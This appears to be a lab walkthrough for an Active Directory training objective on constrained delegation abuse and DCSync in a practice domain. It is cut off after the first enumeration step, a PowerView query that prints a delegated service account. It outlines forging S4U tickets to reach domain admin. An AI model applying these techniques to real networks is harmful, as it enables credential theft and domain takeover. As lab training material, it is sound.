 # Learning Objective 16 (Domain Privilege Escalation | Constrained Delegation + DCSync)

## Tasks

1. **Gain access to a delegated service abusing the constrained delegation configured on a user account by forging a TGS using the user encryption key hash**
2.  **Abuse the constrained delegation configured on a computer account, to forge a TGS using the computer encryption key hash and use it to obtain an alternate TGS for LDAP service on the DC, enabling a DCSync attack**

---

## Attack Path Steps

- **Find a Target User where Constrained Delegation is Enabled**
- **Forge an S4U TGS using the Target User TGS Encryption Key Hash for the Service to which Delegation is Configured**
- **Leverage the Forged Ticket to Gain Access to that Service**
- **Find a Target Server where Constrained Delegation is Enabled**
- **Forge an S4U TGS using the Target Server TGS Encryption Key Hash for the Delegated Service and Leverage it to Obtain an Alternate TGS for the LDAP Service**
- **Leverage the Obtained Ticket to Run a DCSync Attack on the DC and Gain DA Privileges**

---

## Solution

1. **Gain access to a delegated service abusing the constrained delegation configured on a user account by forging a TGS using the user encryption key hash**

- **Find a Target User where Constrained Delegation is Enabled**

To enumerate users with constrained delegation enabled we can use PowerView.

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\PowerView.ps1`

`Get-DomainUser -TrustedToAuth`:
```
[SNIP]

logoncount               : 5
badpasswordtime          : 12/31/1600 4:00:00 PM
distinguishedname        : CN=web svc,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass              : {top, person, organizationalPerson, user}
displayname              : web svc
lastlogontimestamp       : 10/25/2024 3:37:34 AM
userprincipalname        : websvc
whencreated              : 11/14/2022 12:42:13 PM
samaccountname           : websvc👤
codepage                 : 0
samaccounttype           : USER_OBJECT📌
accountexpires           : NEVER
countrycode              : 0
whenchanged              : 10/25/2024 10:37:34 AM
instancetype             : 4
usncreated               : 38071
objectguid               : b7ab147c-f929-4ad2-82c9-7e1b656492fe
```